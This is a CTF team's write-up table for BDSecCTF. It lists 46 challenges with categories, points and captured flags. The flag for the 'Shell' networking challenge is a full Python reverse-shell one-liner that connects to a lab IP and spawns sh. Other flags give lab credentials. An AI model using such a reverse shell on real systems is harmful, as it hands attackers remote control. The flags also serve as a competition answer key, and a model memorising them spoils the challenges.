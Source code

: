 # BDSecCTF - Write Up

## Context
The goal is to solve cybersecurity tests in various categories. The validation of a challenge is done by retrieving a string called flag which confirms the fact that you have passed the associated test and allows you to obtain the associated points.

## Rules
- Time : 24h (07/20/22 17h - 07/21/22 17h (UTC+2) )
- Max Pers per Team : 5
- Submit Limit : 30 per chall

## Results 
<p align='center'>

| ![Screenshot](Stats.png)            | ![Screenshot](Scoreboard.png)                                                                                                           |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
</p>

## Challenges

| Chall Name                                                       | Category     | Author     | Points | Done | Flag |
|------------------------------------------------------------------|:-------------:|:----------:|:--------------:|:------:|:---------:|
| Sound's Good                                    | Stegano          | pmsiam   | 50     | ✘ | `` |
| Deep Dive Into It !!                                           | Stegano        | pmsiam   | 250     | ✘ | `` |
| PwnRace                                    | PWN        | froghunter   | 200     | ✔ | `` |
| BDSec License Checker 0x1                                    | Reverse        | NomanProdhan   | 50     | ✘ | `BDSEC{l1c3n53_ch3ck3r_0x1_2022}` |
| shashdot                                    | Reverse        | froghunter   | 50     | ✘ | `` |
| Flag Box                                    | Reverse        |  marufmurtuza   | 100     | ✔ | `` |
| Simple Math                                    | Reverse        |  marufmurtuza   | 100     | ✔ | `` |
| Poster                                    | Reverse        |  froghunter   | 100     | ✔ | `` |
| BDSec License Checker 0x03                                    | Reverse        |  NomanProdhan   | 150     | ✘ | `BDSEC{iTs_lIcEnsE_cHeCker_tHrEE_bDsEc}` |
| BDSec License Checker 0x02                                    | Reverse        |  NomanProdhan   | 200     | ✘ | `` |
| Crypto Code                                    | Crypto        | 1xR1FAT   | 25     | ✔ | `BDSEC{cryp70_and_pyth0n_ar3_aw3s0me}` |
| [VIPx01](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/VIPx01)                                    | Crypto        | 1xR1FAT   | 25     | ✔ | `BDSEC{crypt0_ar3_aw3s0m3}` |
| VIPx02                                    | Crypto        | 1xR1FAT   | 25     | ✘ | `` |
| [Fake](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Fake)                                    | Crypto        | 1xR1FAT   | 50     | ✔ | `BDSEC{do3sn't_b3li3ve_1n_unkn0wn_mail}` |
| [Basically RSA](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Basically%20RSA)                                    | Crypto        | dyn   | 100     | ✔ | `DSEC{r54_i5_fUn_r16h7?}` |
| Dominoes                                    | Crypto        | dyn   | 50     | ✘ | `BDSEC{n0t_50_e45y_hUh?_433}` |
| Loop Lover                                    | Crypto        | dyn   | 100     | ✘ | `BDSEC{ju57_L00p_m3_4w4y}` |
| Jungle Templating                                    | WEB        |  0xmahi   | 100     | ✔ | `BDSEC{Y3Y_7H1515_7H3_F146}` |
| Awesome Note Keeping                                    | WEB        |  NomanProdhan   | 100     | ✔ | `BDSEC{tHe_n0t3_K33p1n6_4W350M3_N5}` |
| Knight Squad Shop                                    | WEB        |  froghunter   | 100     | ✔ | `BDSEC{mummy_i_can't_write_javaScript}` |
| [Find The Cost](https://github.com/Beel0w/BDSecCTF/tree/main/Programming/Find%20the%20Cost)                                    | Programing        | marufmurtuza| 100     | ✔ | `BDSEC{35,47}` |
| Find The Masterpiece                                    | OSINT        | marufmurtuza   | 50     | ✔ | `BDSEC{he’s_a_pirate,2003}` |
| [Find Rejvi](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20Rejvi)                                    | OSINT        | NomanProdhan   | 70     | ✔ | `BDSEC{yoU_goT_m3__oS1nT_I5_fUn_r1Gh7}` |
| Find Me Inside | OSINT        | Axif   | 50     | ✔ | `BDSEC{M33m_the_butterfly_goes_up_up_and_away}` |
| [Message of Hufflepuff](https://github.com/Beel0w/BDSecCTF/tree/main/Misc/Message%20of%20Hufflepuff)                                    | Misc        | marufmurtuza   | 50     | ✔ | `BDSEC{Huffm@n_Enc0d1ng_go7_D3COD3D}` |
| Victim & Attacker | Networking        | TareqAhamed   | 25     | ✔ | `BDSEC{192.168.1.13_192.168.1.10}` |
| Which FTP ? | Networking        | marufmurtuza   | 50     | ✔ | `BDSEC{vsFTPd_3.0.3}` |
| FTP Creads | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{ftpadmin_ftpadmin}` |
| Uploaded File | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{/files/.hacker.not}` |
| Log Filer | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{vsftpd.log}` |
| Project Incharge | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Loooon Looong | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{Thu_Jul_14_10:16:59}` |
| Administrator | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Shell | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{python -c 'import socket,  subprocess,os;s=socket.socket(socket.AF_INET,  socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));  os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);  os.dup2(s.fileno(),2);import pty;pty.spawn("sh")'}` |
| Secret Key | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Database Admin | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{root_root}` |
| HostName | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{ftpadmin}` |
| CodeName | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{xenial}` |
| Server Info | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Service Exploit | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{polkit}` |
| Exploit Exploit Exploit | Networking        |  marufmurtuza   | 50     | ✔ | `` |
| Vulnerable Service | Networking        | TareqAhamed   | 50     | ✔ | `` |
| msg.txt | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Attacker | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{N4N0M473}` |
| Server User's | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{8}` |  

**Total : 46 Challenges ( 3220 Points )**
 
Credits : [Beel0w](https://github.com/Beel0w)  
Last Edited on: 22/07/2022
  

